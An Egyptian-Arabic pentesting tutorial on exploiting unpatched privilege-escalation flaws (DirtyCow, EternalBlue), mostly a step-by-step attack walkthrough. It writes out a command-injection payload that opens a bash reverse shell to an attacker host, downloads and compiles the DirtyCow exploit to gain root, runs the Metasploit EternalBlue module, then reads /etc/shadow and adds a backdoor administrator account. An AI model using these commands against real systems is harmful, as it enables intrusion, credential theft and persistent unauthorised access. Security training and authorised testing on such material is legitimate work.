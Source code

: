 # **1. إيه هو Exploiting Unpatched Privilege Escalation Vulnerabilities؟**

## **الشرح العميق:**
"Exploiting Unpatched Privilege Escalation Vulnerabilities" يعني استغلال ثغرات في تصعيد الصلاحيات (Privilege Escalation) اللي لسه ما اتعمللهاش تحديث (Unpatched) في نظام أو برنامج. الثغرات دي بتكون عيوب في البرمجيات (زي نواة لينكس، ويندوز، أو تطبيقات) بتسمح لمستخدم عادي (Low Privilege) يصير لمستوى أعلى (زي root أو System). "Unpatched" يعني إن الثغرة معروفة (لها CVE مثلًا) بس النظام ما اتحدثش عشان يصلحها، فالمهاجم يقدر يستغلها بسهولة لو عرف إزاي.

- **أمثلة:** DirtyCow (CVE-2016-5195) في لينكس، أو EternalBlue (CVE-2017-0144) في ويندوز.
- **الهدف:** تصعيد الصلاحيات من مستخدم عادي لـ Admin/Root.

## **الأدوات والأوامر العملية:**
### 1. **فحص النظام:**
   - لينكس: `uname -r` -> `3.16.0-38-generic` (لو قديم، ممكن يكون متأثر).
   - ويندوز: `systeminfo` -> تشوف الإصدار ومستوى التحديثات.
## 2. **البحث عن ثغرات:**
   - `searchsploit linux kernel 3.16` ->متاحة Exploits يجيب 
### 3. **Metasploit:**
   - `msfconsole` -> `search privilege escalation`.

## **خلاصة بالعامية المصرية:**
"يعني زي ما تكون لقيت خرم في حيطة البيت لسه محدش سده، تدخل منه وتبقى الكبير جوا! Unpatched يعني النظام نايم وما حدثش، فتقدر تطلع الباشا بسهولة."

---

# **2. ليه المشكلة دي خطيرة؟**

## **الشرح العميق:**
الثغرات دي خطيرة لأنها بتفتح الباب للمهاجم يتحكم في النظام كله لو ما اتعمللهاش Patch. يعني:
- **تصعيد صلاحيات:** من مستخدم عادي لـ root/System.
- **تحكم كامل:** يسرق بيانات، يزرع Backdoors، أو يخرب النظام.
- **انتشار أوسع:** يستخدم النظام المخترق كقاعدة لمهاجمة أنظمة تانية.

في الـ Pentesting، الثغرات اللي ما اتحدثتش بتكون ذهب لأنها بتديك طريق سريع للوصول للقمة لو النظام متأخر في التحديثات.

## **الأدوات والأوامر العملية:**
### 1. **فحص الثغرات:**
   - لينكس: `cat /etc/os-release` + `uname -r` -> قارن بالـ CVEs.
   - ويندوز: `wmic qfe list` -> لو ما لقيتش تحديثات حديثة، ابحث عن Exploits.
### 2. **تشغيل Exploit:**
   - لو لقيت CVE-2016-5195 (DirtyCow):
     - `gcc -pthread dirty.c -o dirtycow && ./dirtycow`.
### 3. **Metasploit مثال:**
   - `use exploit/windows/local/ms10_092_schelevator` -> لو ويندوز قديم.

## **خلاصة بالعامية المصرية:**
"المشكلة خطيرة لأنها زي ما تكون سايب باب البيت مكسور وما صلحتوش، أي حد يخش ياخد كل حاجة! المهاجم يلاقي الثغرة دي، يبقى الكبير بتاع النظام في ثواني."

---

# **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم الثغرات اللي ما اتعمللهاش Patch عشان تصعد صلاحياتك من مستخدم عادي لـ Admin/Root.
- **مثال واقعي:** لو لقيت سيرفر لينكس قديم متأثر بـ DirtyCow، تشغل الـ Exploit وتاخد root.

## **خلاصة بالعامية المصرية:**
"لما تلاقي ثغرة زي دي، زي ما تكون لقيت كنز في لعبة، تستخدمه وتبقى الكبير بتاع الماتش من غير ما حد يحس!"

---

# **خطوات عملية للاستغلال في Pentesting**

## **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29 (لينكس).
  - Port 445: SMB (ويندوز).

## **الخطوة 2: الوصول الأولي**
- لو لقيت ثغرة ويب:
  - `http://192.168.1.10/ping?ip=127.0.0.1; id` -> لو رجع `www-data`:
  - `http://192.168.1.10/ping?ip=127.0.0.1; /bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
  - `nc -lvnp 4444` -> Shell.

## **الخطوة 3: التحقق من الإصدار**
- في لينكس:
  - `uname -r` -> `3.16.0-38-generic` (متأثر بـ DirtyCow مثلًا).
- في ويندوز:
  - `systeminfo | findstr "OS Version"` -> `6.1.7600` (Windows 7 بدون SP1، متأثر بـ MS17-010).

## **الخطوة 4: البحث عن Exploit**
- لينكس:
  - `searchsploit linux kernel 3.16` -> يجيب DirtyCow (CVE-2016-5195).
- ويندوز:
  - `searchsploit windows 7 privilege` -> يجيب MS17-010 (EternalBlue).

## **الخطوة 5: تشغيل الـ Exploit**
- **في لينكس (DirtyCow):**
  - `wget http://192.168.1.100/dirty.c -O /tmp/dirty.c`.
  - `gcc -pthread /tmp/dirty.c -o /tmp/dirtycow`.
  - `./tmp/dirtycow` -> يضيف مستخدم `firefart` كـ root.
  - `su firefart` -> كلمة السر `firefart` -> `id` -> `uid=0(root)`.
- **في ويندوز (MS17-010):**
  - `msfconsole`.
  - `use exploit/windows/smb/ms17_010_eternalblue`.
  - `set RHOSTS 192.168.1.10`.
  - `set LHOST 192.168.1.100`.
  - `exploit` -> Shell كـ `SYSTEM`.

## **الخطوة 6: استغلال وتوثيق**
- كـ root/System:
  - لينكس: `cat /etc/shadow` -> تسريب كلمات السر.
  - ويندوز: `net user hacker pass123 /add && net localgroup administrators hacker /add`.
- سجل الثغرة (مثل CVE-2016-5195) والإصدار المتأثر في تقريرك.

## **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت سلاح قوي في لعبة، ضربت بيه الكل، وطلعت الكبير بتاع الحتة! الثغرات اللي ما اتحدثتش طريقك للفوز بسهولة لو لقيتها."

---

# **الخلاصة النهائية:**
Exploiting Unpatched Privilege Escalation Vulnerabilities هي طريقة خطيرة وفعالة لتصعيد الصلاحيات لو النظام ما اتحدثش. في الـ Pentesting، دور على الإصدارات القديمة بـ `uname` أو `systeminfo`، استخدم أدوات زي Searchsploit أو Metasploit عشان تشغل الـ Exploits، ووري 
العميل إن نظامه زي بيت مكسور لو ما حدثش! بالطريقة دي، تبقى البطل بتاع اللعبة بكل سهولة!


